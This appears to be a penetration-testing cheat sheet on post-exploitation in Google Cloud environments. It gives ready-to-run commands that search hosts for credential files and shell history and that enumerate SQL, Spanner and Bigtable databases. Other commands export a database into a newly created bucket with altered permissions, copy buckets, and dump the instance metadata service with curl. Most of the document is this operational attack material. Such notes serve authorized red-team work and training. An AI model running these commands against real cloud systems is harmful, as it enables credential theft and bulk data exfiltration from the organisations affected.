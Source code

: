 # Post exploitation
## Index
* [Getting Credentials](#Getting-credentials)
  * [Google tokens](#Google-tokens) 
  * [Web config and App config files](#Web-config-and-App-config-files)
  * [Internal repositories](#Internal-repositories)
  * [Command history](#Command-history)
* [Data harvesting](#Data-harvesting)
  * [Export google data](#Export-google-data) 
  * [Export SQL databases](#Export-SQL-databases)
  * [Export buckets](#Export-buckets)
* [Metadata Service URL](#Metadata-Service-URL)
 
## Getting credentials
### Google tokens
-  Google JSON Tokens and credentials.db
-  JSON tokens typically used for service account access to GCP
-  If a user authenticates with gcloud from an instance their creds get stored here ```~/.config/gcloud/credentials.db```
```
sudo find /home -name "credentials.db"
```

### Web config and App config files
-  ```Web.config``` and ```app.config``` files might contain creds or access tokens.
- Look for management cert and extract to ```.pfx``` like publishsettings files
```
sudo find / -name web.config 2>/dev/null
Get-ChildItem -Path C:\ -Filter app.config -Recurse -ErrorAction SilentlyContinue -Force
```

### Internal repositories
- Find internal repos (scan for port 80, 443 or Query AD and look for subdomains or hostnames as git, code, repo, gitlab, bitbucket etc)
- Tools for finding secrets
  - Gitleaks https://github.com/zricethezav/gitleaks
  - Gitrob https://github.com/michenriksen/gitrob
  - Truffle hog https://github.com/dxa4481/truffleHog
  
### Command history
- Look through command history
- ```~/.bash_history`` or ```%USERPROFILE%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt```
```
sudo find / -name .bash_history 2>/dev/null
Get-ChildItem -Path C:\ -Filter *ConsoleHost_history.txt* -Recurse -ErrorAction SilentlyContinue -Force
```

## Data harvesting
### Export google data 
- https://takeout.google.com

### Export SQL databases
#### List SQL databases
```
gcloud sql instances list
gcloud sql databases list --instance <instance name>
gcloud spanner instances list
gcloud spanner databases list --instance <instance name>
gcloud bigtable instances list
```

#### Create new storage bucket, change perms, export SQL DB
```
gsutil mb gs://<googlestoragename>
gsutil acl ch -u <service account> gs://<googlestoragename>
gcloud sql export sql <sql instance name> 
gs://<googlestoragename>/sqldump.gz --database=<database name>
```

### Export buckets
```
gsutil cp gs://bucket-name/folder/ 
```

### Metadata Service URL

```bash
curl "http://metadata.google.internal/computeMetadata/v1/?recursive=true&alt=text" -H "Metadata-Flavor: Google"
```
